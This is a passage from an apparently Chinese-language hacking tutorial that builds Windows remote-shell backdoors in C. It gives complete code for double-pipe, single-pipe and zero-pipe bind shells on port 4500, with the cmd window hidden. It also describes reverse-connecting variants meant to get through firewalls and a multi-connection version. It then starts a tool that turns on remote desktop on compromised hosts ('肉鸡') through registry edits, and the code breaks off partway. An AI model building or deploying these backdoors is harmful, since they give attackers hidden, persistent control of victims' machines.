

图4表示了图2中远程主机上的具体实现过程，这个过程是后门的一般实现步骤，所以可能和下面讲到的后门在具体实现步骤上有所不同。

##### 2.2.2.1 双管道后门

所谓双管道后门，顾名思义也就是这个后门建立了两个管道。由于匿名管道是单向的，所以 cmd 的执行结果写入管道1的写句柄（hWritePipe），后门从管道1的读句柄（hReadFile）读取 cmd 执行结果；后门把接收到的命令写入管道2的写句柄（hWriteFile），cmd 通过管道2的读句柄（hReadPipe）读取命令执行。整个过程如图5所示。



下面我们就根据图4中的步骤来实现这个后门。首先要建立 TCP 服务端，这一部分在第一章已经实现，这里就不再重复了，我们直接进入第二步。第二步是要通过 CreatePipe 函数建立管道，由于我们要建立两个管道，而又不知道什么时候管道1中会有数据，什么时候收到了命令该写入管道2中，所以这里建立两个线程，每个线程建立一个管道，线程1用于循环读取管道1中的数据，一旦读到数据，就发送给控制者；线程2用于循环接收数据，一旦接收到数据就写入管道2中，由 cmd 来执行。

```c
// 接受远程主机的命令，写入管道2
// 读取管道2中的数据，写入管道1
DWORD WINAPI Thread2(LPVOID lpParam)
{
    SECURITY_ATTRIBUTES sa;
    DWORD nByteToWrite, nByteWritten;
    char recv_buff[1024];

    sa.nLength = sizeof(SECURITY_ATTRIBUTES);
    sa.lpSecurityDescriptor = NULL;
    sa.bInheritHandle = TRUE;

    // 创建管道
    CreatePipe(&hReadPipe, &hWriteFile, &sa, 0);

    while (true)
    {
        Sleep(250);
        // 接受远程cmd命令
        nByteToWrite = recv(sClient, recv_buff, 1024, 0);
        // 写入管道
        WriteFile(hWriteFile, recv_buff, nByteToWrite, &nByteWritten, NULL);
    }
    return 0;
}

// 读取管道1中的数据，返回给远程主机
DWORD WINAPI Thread1(LPVOID lpParam)
{
    SECURITY_ATTRIBUTES sa;
    DWORD len;
    char send_buff[2048];

    sa.nLength = sizeof(SECURITY_ATTRIBUTES);
    sa.lpSecurityDescriptor = NULL;
    sa.bInheritHandle = TRUE;

    CreatePipe(&hReadFile, &hWritePipe, &sa, 0);

    while (true)
    {
        // 读取管道中的数据
        ReadFile(hReadFile, send_buff, 2048, &len, NULL);
        // 把管道中的数据发送给远程主机
        send(sClient, send_buff, len, 0);
    }

    return 0;
}
```

在主函数中我们只要调用 CreateThread 函数启动这两个线程就可以了。由于这两个线程是在接收连接后，但管道没有和 cmd 的输入输出关联时启动的，所以启动后，线程1是不能从管道1中读到数据的。线程2假如接收到命令写入管道2中，cmd 也是不会执行的。只有把管道和 cmd 的输入输出关联起来并且启动 cmd 进程后，这两个管道才能发挥它的作用。

下面我们就用管道句柄把管道和 cmd 的输入输出关联起来。这里要用到 LPSTARTUPINFO 结构，这个结构是 CreateProcess 函数的一个参数，它指定了新进程中主窗口的位置、大小、输入、输出等信息。在调用 CreateProcess 函数前我们必须要对 LPSTARTUPINFO 结构进行初始化，以实现管道和 cmd 输入输出的关联和创建 cmd 窗口的隐藏。先来看一下这个结构的定义：

```c
typedef struct _STARTUPINFO {
    DWORD  cb;
    LPTSTR lpReserved;
    LPTSTR lpDesktop;
    LPTSTR lpTitle;
    DWORD  dwX;
    DWORD  dwY;
    DWORD  dwXSize;
    DWORD  dwYSize;
    DWORD  dwXCountChars;
    DWORD  dwYCountChars;
    DWORD  dwFillAttribute;
    DWORD  dwFlags;
    WORD   wShowWindow;
    WORD   cbReserved2;
    LPBYTE lpReserved2;
    HANDLE hStdInput;
    HANDLE hStdOutput;
    HANDLE hStdError;
} STARTUPINFO, *LPSTARTUPINFO;
```

这个结构中的成员非常多，不过微软还提供了 GetStartupInfo 函数。此函数就一个参数，它指向了一个 STARTUPINFO 结构，用于返回本进程的 STARTUPINFO 结构信息，所以我们就偷懒一下，调用 GetStartupInfo 函数得到当前进程的 STARTUPINFO 结构，然后再修改几个成员，这样就可以实现关联了。具体代码如下：

```c
GetStartupInfo(&si);            // 用当前进程初始化进程信息填充 STARTUPINFO 结构
// dwFlags 是用来指定 STARTUPINFO 里的参数哪个有效
si.dwFlags    = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
si.hStdInput  = hReadPipe;      // 从管道2读句柄输入，读取命令
si.hStdError  = hWritePipe;     // 错误输出到管道1写句柄
si.hStdOutput = hWritePipe;     // 执行结果从管道写句柄输出
si.wShowWindow = SW_HIDE;       // 隐藏 cmd 窗口
```

这样就实现了图4中 cmd 和管道之间的通信关系。由于第五步在前面已经实现了，所以最后就只剩下调用 CreateProcess 函数启动 cmd 进程的工作了。CreateProcess 函数原型如下：

```c
BOOL CreateProcess(
    LPCTSTR lpApplicationName,
    LPTSTR  lpCommandLine,
    LPSECURITY_ATTRIBUTES lpProcessAttributes,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    BOOL    bInheritHandles,
    DWORD   dwCreationFlags,
    LPVOID  lpEnvironment,
    LPCTSTR lpCurrentDirectory,
    LPSTARTUPINFO lpStartupInfo,
    LPPROCESS_INFORMATION lpProcessInformation
);
```

lpApplicationName 参数指向包含了可执行文件名。

- `lpCommandLine` 参数指向命令行字符串，用于传递给可执行文件参数。
- `lpProcessAttributes` 参数描述进程的安全性属性，`NULL` 为默认安全性。
- `lpThreadAttributes` 参数描述进程初始线程（主线程）的安全性属性，`NULL` 为默认安全性。
- `bInheritHandles` 参数表示子进程是否可以继承父进程的句柄。
- `dwCreationFlags` 参数表示创建进程的优先级类别和进程的类型。
- `lpEnvironment` 参数指向环境变量块，环境变量可以被子进程继承。
- `lpCurrentDirectory` 参数指向表示当前目录的字符串，当前目录可以继承。
- `lpStartupInfo` 参数指向 `STARTUPINFO` 结构，表示新进程中的主窗口的位置、大小、输入、输出等信息。
- `lpProcessInformation` 参数指向 `PROCESS_INFORMATION` 结构，用来存储返回的新进程信息，此结构具体成员如下：

```c
typedef struct _PROCESS_INFORMATION {
    HANDLE hProcess;    // 进程句柄
    HANDLE hThread;     // 主线程句柄
    DWORD  dwProcessId; // 进程ID
    DWORD  dwThreadId;  // 主线程ID
} PROCESS_INFORMATION;
```

创建进程成功返回 `TRUE`，并且 `lpProcessInformation` 返回新进程的信息，否则返回 `FALSE`。

本例子中具体调用如下：

```c
PROCESS_INFORMATION pi;
char cmdline[256] = {0};
// 得到系统路径
GetSystemDirectory(cmdline, sizeof(cmdline));
strcat(cmdline, "\\cmd.exe");
// 创建cmd进程
if (CreateProcess(cmdline, NULL, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi) == 0) {
    printf("CreateProcess Error.\n");
    return 0;
}
```

这样整个后门就实现了，剩下的工作就是把这些代码整合起来，我们来看主体部分代码（源码在光盘下“第二章\简单cmdshell的实现\TowPipeDoor1”下）：

```cpp
#include <stdio.h>
#include <Winsock2.h>
#pragma comment(lib, "ws2_32.lib")
SOCKET sListen, sClient;
// 定义管道句柄
HANDLE hReadPipe, hWritePipe, hWriteFile, hReadFile;

int main(int argc, char* argv[])
{
    char wMessage[512] = "\r\n============================== BackDoor ...";

    HANDLE hThread[2];
    DWORD dwThreadidA, dwThreadidB;
    PROCESS_INFORMATION pi;
    STARTUPINFO si;

    // 初始化socket，并绑定本地端口监听
    BYTE minorVer = 2;
    BYTE majorVer = 2;
    WSADATA wsaData;
    WORD sockVersion = MAKEWORD(minorVer, majorVer);
    if (WSAStartup(sockVersion, &wsaData) != 0)
        return 0;

    sListen = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (sListen == INVALID_SOCKET)
    {
        printf("socket error \n");
        return 0;
    }

    sockaddr_in sin;
    sin.sin_family = AF_INET;
    sin.sin_port = htons(4500);
    sin.sin_addr.S_un.S_addr = INADDR_ANY;
    if (bind(sListen, (LPSOCKADDR)&sin, sizeof(sin)) == SOCKET_ERROR)
    {
        printf("bind error \n");
        return 0;
    }

    if (listen(sListen, 2) == SOCKET_ERROR)
    {
        printf("listen error \n");
        return 0;
    }

    // 接收连接
    sClient = accept(sListen, NULL, NULL);

    // 创建两个线程，用于读取写入管道中的数据，实现通信
    hThread[0] = CreateThread(NULL, 0, Thread1, NULL, 0, &dwThreadidA);
    hThread[1] = CreateThread(NULL, 0, Thread2, NULL, 0, &dwThreadidB);

    // 暂停1秒，为了确保两个线程中的管道创建完毕，因为下面要对管道进行操作
    Sleep(1000);

    GetStartupInfo(&si);
    si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;

    // 使cmd的输入输出和管道关联
    si.hStdInput = hReadPipe;
    si.hStdError = hWritePipe;
    si.hStdOutput = hWritePipe;
    si.wShowWindow = SW_HIDE;

    char cmdline[256] = {0};

    // 得到系统路径
    GetSystemDirectory(cmdline, sizeof(cmdline));
    strcat(cmdline, "\\cmd.exe");

    // 创建cmd进程
    if (CreateProcess(cmdline, NULL, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi) == 0)
    {
        printf("CreateProcess Error \n");
        return 0;
    }

    // 发送欢迎信息
    send(sClient, wMessage, strlen(wMessage), 0);

    // 等待线程结束
    WaitForMultipleObjects(2, hThread, true, INFINITE);
    return 0;
}
```

> **编程加油站**  
> **GetSystemDirectory 函数**  
> GetSystemDirectory 这个函数用于得到 Windows 系统目录。它有两个参数：`lpBuffer` 参数指向一个字符串指针，用于存储系统目录；`uSize` 参数用于存储 `lpBuffer` 的长度。如果函数调用成功，在 `lpBuffer` 参数中返回 Windows 系统目录路径。

用 telnet 连接后门的效果如图6所示。



图6

##### 2.2.2.2 单管道后门

不知道大家有没有发现，上面的后门程序，当有用户连接后会创建一个 cmd 进程，而这个进程是一直存在的，这样隐蔽性也就差了，这也就是它的缺陷。现在我们用单管道后门来弥补这个缺陷。

不知道大家有没有带参数执行过 cmd 程序，比如在“运行”中输入“cmd /c net user snow snow/add”，点“确定”后会看见 cmd 窗口一闪而过，并没有留下 cmd 进程，而用户名却已经添加了，这就说明刚才的命令执行了。

那么我们的后门能不能像前面那样带参数建立 cmd 进程呢？这样当命令执行完后，cmd 就会自动退出，不会一直存在 cmd 进程。这当然是可以的！由于 cmd 是带参数（命令）创建的，也就不需要利用管道来传递命令了，这样我们不就可以省去管道2了？现在我们的后门只有一个管道（不是很清楚的可以再翻阅下图5），也就是单管道后门了，当然也就没必要用多线程了。

下面是主体部分代码（源码在光盘下“第二章\shell 的实现\OnePipeDoor”下）：

```cpp
// 用 Winsock 建立 TCP 服务端部分
// 循环，用于接收命令，创建进程执行，并从管道中读出执行结果返回给远程主机
while (true)
{
    // cmdline 清零
    memset(cmdline, 0, 256);

    SECURITY_ATTRIBUTES sa;
    HANDLE hRead, hWrite;
    sa.nLength = sizeof(SECURITY_ATTRIBUTES);
    sa.lpSecurityDescriptor = NULL;
    sa.bInheritHandle = TRUE;
    if (!CreatePipe(&hRead, &hWrite, &sa, 0)) {
        printf("CreatePipe Error");
        return 0;
    }

    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    si.cb = sizeof(STARTUPINFO);
    GetStartupInfo(&si);

    // 使 cmd 和管道关联
    si.hStdError = hWrite;
    si.hStdOutput = hWrite;
    si.wShowWindow = SW_HIDE;
    si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;

    GetSystemDirectory(cmdline, sizeof(cmdline));
    strcat(cmdline, "\\cmd.exe /c");
    char cmdbuff[256];

    int rLen = recv(sClient, cmdbuff, 256, 0);
    if (rLen == SOCKET_ERROR)
        return 0;

    strncat(cmdline, cmdbuff, strlen(cmdbuff));

    if (!CreateProcess(NULL, cmdline, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi)) {
        printf("CreateProcess Error");
        continue;
    }

    CloseHandle(hWrite);
    DWORD dwRead;
    while (ReadFile(hRead, rBuffer, 1024, &dwRead, NULL)) {
        send(sClient, rBuffer, strlen(rBuffer), 0);
        memset(rBuffer, 0, 1024);
    }

    return 0;
}
```

##### 2.2.2.3 零管道后门

前面讲了双管道后门和单管道后门，那么能不能不用管道呢？答案当然是可以的，学黑客技术当然要挑战不可能啊！我们来看下面这句代码：

```c
sListen = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
```

用 WSASocket 函数代替 socket 函数建立套接字，由于用 WSASocket 函数建立的套接字可以重叠 I/O 操作，所以可以直接把套接字和 cmd 的输入输出关联起来。具体关联代码如下：

```c
si.hStdInput = si.hStdOutput = si.hStdError = (void*)s;
```

si 是 STARTUPINFO，也就是说当 socket 收到命令时会直接传递给 cmd 执行，cmd 返回的执行结果又会直接传递给 socket 发送。上述过程的实现并不需要我们写代码来实现。

所以接下去的工作只需要建立 cmd 进程，然后等待进程结束后返回就可以了，这样就可以实现无管道而在 cmd 和后门之间通信了。由于这个后门比较简单，这里只给出主体部分代码（源码在光盘“第二章\简单cmdshell的实现\NoPipeDoor1”下）：

```c
int cmdshell(SOCKET s)
{
    STARTUPINFO si;
    GetStartupInfo(&si);
    si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
    si.wShowWindow = SW_HIDE;
    // 使 cmd 的输入输出直接和 socket 关联
    si.hStdInput = si.hStdOutput = si.hStdError = (void*)s;

    char cmdline[256];
    // 得到 cmd 路径
    GetSystemDirectory(cmdline, sizeof(cmdline));
    strcat(cmdline, "\\cmd.exe");

    PROCESS_INFORMATION ProcessInformation;
    int ret;
    // 建立 cmd 进程
    ret = CreateProcess(NULL, cmdline, NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation);
    // 等待进程结束
    WaitForSingleObject(ProcessInformation.hProcess, INFINITE);
    CloseHandle(ProcessInformation.hProcess);
    return 0;
}
```

在 accept 函数返回接收连接后调用即可。个人测试认为单管道后门的运行效率和稳定性都相当好，其唯一的缺陷和双管道后门一样，一旦接收连接后就会一直存在 cmd 进程。

#### 2.2.3 反向连接后门

随着防火墙的普及，对于服务器外部的连接往往会受到防火墙的拦截，那么正向连接后门也就失去了它的作用。

**所谓反向连接后门，就是后门充当客户端，由后门本身发起连接，也就是说从被控制的服务器发起连接，而在本地只需监听特定端口即可，这样的后门可以穿透一些防火墙。**

从上面的讲解中我们可以知道，其实反向连接后门的 Winsock 部分就相当于第一章中的 TCP 客户端。其他管道通信部分和建立 cmd 进程等部分和正向连接后门是一样的，所以这里就不再具体展开讲解了。（双管道反向后门、单管道反向后门和零管道反向后门的源码分别在光盘“第二章\简单cmdshell的实现\TwoPipeDoor2”“第二章\简单cmdshell的实现\OnePipeDoor2”和“第二章\简单cmdshell的实现\NoPipeDoor2”下）。

下面我们来看一下后门的具体执行效果，本地用 nc 监听 4500 端口，运行后门后如图 7 所示。



图 7

#### 2.2.4 补充（实现多连接）

在 2.2.2 一节的正向连接后门中还有一个缺陷，只能处理单连接，也就是说当有一个用户与后门建立连接后，其他用户再连接后门，不会再返回 cmdshell。

在 TCP 服务端的代码中我们可以找到原因，当后门程序运行，代码执行到 `sClient=accept(sListen,NULL,NULL);` 时，后门不是继续执行下面代码，而是处于等待状态，等待有连接后，接受这个连接再继续往下执行。所以当接收一个连接后，后门监听的端口虽然还是打开的，但是 `accept` 函数不再处于等待连接状态。因此再有其他连接也不会触发任何代码，也就不会返回 cmdshell。

怎么解决这个问题呢？这里我们用多线程来解决。以零管道后门为例，思路比较简单，也就是用循环让主线程反复调用 `accept()` 函数，用于接收所有连接，当有连接时为每个连接开一个线程，实现 cmdshell 功能。主体代码如下（源码在光盘“第二章\简单cmdshell的实现\多连接 NoPipeDoor”下）：

```cpp
// cmdshell 线程函数
DWORD WINAPI Thread(LPVOID lpParam)
{
    // 得到由线程函数传递来的套接字句柄
    SOCKET s=(SOCKET)lpParam;
    // 下面代码同零管道后门中的 cmdshell 函数
    return 0;
}

int main(int argc, char* argv[])
{
    // Winsock 初始化和绑定地址等部分
    for(int i=0;i<5;++i)
    {
        // 接收连接
        sClient[i]=accept(sListen,NULL,NULL);
        // 为每个连接创建 cmdshell 进程
        CreateThread(NULL,NULL,Thread,(LPVOID)sClient[i],0,&dwThreadId);
        // 发送欢迎消息
        send(sClient[i],wMessage,strlen(wMessage),0);
    }
    return 0;
}
```

后门执行效果如图 8 所示。



图 8

### 2.3 开启远程终端的实现

前置知识：C/C++ 基础、注册表操作编程

难度：简单

编译环境：VC++ 6.0

测试环境：Windows XP

后门一般是运行在服务器上的，而服务器上安装的系统一般都是 server 版的，所以开启远程终端这个功能也是非常实用的。并且远程终端控制肉鸡实时性又好，大部分黑客都喜欢用这玩意儿，所以对于后门来说开启远程终端功能也是必不可少的。

> **编程贴士**
>
> **什么是远程终端？**
>
> 终端服务仅仅存在于 Windows 2000 server 版、XP 和 2003 中；其他系统不存在此组件。终端服务默认情况下是不安装在操作系统中的，需要时通过添加删除 Windows 组件来安装。终端服务起到的作用就是方便多用户一起操作网络中开启终端服务的服务器，所有用户对同一台服务器操作，所有操作和运算都放在该服务器上。

开远程终端（也就是我们常说的开 3389），一般是通过修改注册表来实现，当然也可以用 bat 文件来实现。在 Windows XP、Windows 2003 的系统中，修改注册表后不用重启计算机，而在 Windows 2000 中修改注册表之后需要重启计算机，这样远程终端才能成功开启。而在 Windows XP 中开启终端之后不支持多用户登录，也就是说当本地已经有用户登录，远程再有用户登录终端，本地用户会处于注销状态。而且在三个系统上需要修改的注册表键值还有所不同。

从上面的分析来看，要写一个开所有版本系统远程终端的工具还真不容易，因为对于不同的系统还要改不同的注册表项。其实我们可以变通下，不判断系统类型，把三个系统中开启终端所需的所有键值都改掉，经过测试这是可行的，因此程序的具体流程就非常简单了，如图 9 所示。



程序的流程非常清晰，目前位置注册表操作我们已经学会了，对注册表操作我们利用第一章中编写 CreateStringReg 和 CreateDWORDReg 这两个函数就可以了。那么具体要修改哪些注册表项呢？具体如下：

- 1. 在 HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\netcache 下建立 netcache 键，建立字符串键值 Enabled，值为 0。
- 2. 在 HKEY_LOCAL_MACHINE\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer 下建立 Installer 键，建立十进制类型值 EnableAdminTSRemote，值为 1。
- 3. 在 HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon 下修改 ShutdownWithoutLogon 键值为字符串类型，值为 0。
- 4. 在 HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server 下修改 TSEnabled 键值为十进制类型，值为 1。
- 5. 在 HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\TermDD 下修改 Start 键值为十进制类型，值为 2。
- 6. 在 HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\TermService 下修改 Start 键值为十进制类型，值为 2。
- 7. 在 HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server 下修改 fDenyTSConnections 为十进制类型，值为 0。
- 8. 在 HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\RDP-Tcp 下修改 PortNumber 键值为十进制类型，值为终端端口号，自定义。
- 9. 在 HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\WinStations\\RDP-Tcp 下修改 PortNumber 键值为十进制类型，值为终端端口号，自定义。
- 10. 在 HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\Wds\\rdpwd\\Tds\\tcp 下修改 PortNumber 键值为十进制类型，值为终端端口号，自定义。
- 11. 在 HKEY_USERS\\.DEFAULT\\Keyboard Layout\\Toggle 下修改 Hotkey 键值为字符串类型，值为 2。

最后还需要做一步，把 7 中的键值改成 1，在没有这步的情况下 Windows 2003 的终端服务会开启失败。

接下来我们剩下的唯一难题就是判断系统是否是 Windows 2000，得到操作系统版本我们可以调用 GetVersionEx 函数来实现，此函数原型如下：

```c
BOOL GetVersionEx(
    LPOSVERSIONINFO lpVersionInformation
);
```

GetVersionEx 函数只有一个参数 lpVersionInformation，它指向了一个 OSVERSIONINFO 结构，此结构用于装载系统版本信息。下面我们来了解 OSVERSIONINFO 结构，具体定义如下：

```c
typedef struct _OSVERSIONINFO {
    DWORD dwOSVersionInfoSize;
    DWORD dwMajorVersion;
    DWORD dwMinorVersion;
    DWORD dwBuildNumber;
    DWORD dwPlatformId;
    TCHAR szCSDVersion[128];
} OSVERSIONINFO;
```

这里我们只需关心 dwMajorVersion 和 dwMinorVersion 字段，因为它们跟系统的版本号有关。Windows 2000 系统：dwMajorVersion==5 同时 dwMinorVersion==0；Windows XP 系统：dwMajorVersion==5 同时 dwMinorVersion==1；Windows 2003 系统：dwMajorVersion==5 同时 dwMinorVersion==2。

如果此函数调用成功则返回非零，否则返回 0。当调用 GetVersionEx 函数得到系统版本是 Windows 2000 时就要重启计算机，要实现重启计算机我们可以直接调用“注销、重启、关机”这一小节中的 Reboot 函数。开启终端的具体代码如下：

```c
#include <Windows.h>
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char* argv[])
{
    DWORD Port=atoi(argv[1]);
    CreateStringReg(HKEY_LOCAL_MACHINE,
        "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\netcache",
        "Enabled", "0");
    CreateDWORDReg(HKEY_LOCAL_MACHINE,
        "SOFTWARE\\Policies\\Microsoft\\Windows\\Installer",
        "EnableAdminTSRemote", 0x00000001);
    CreateStringReg(HKEY_LOCAL_MACHINE,
        "SOFTWARE\\Microsoft\\WindowsNT\\CurrentVersion\\Winlogon",
        "ShutdownWithoutLogon", "0");
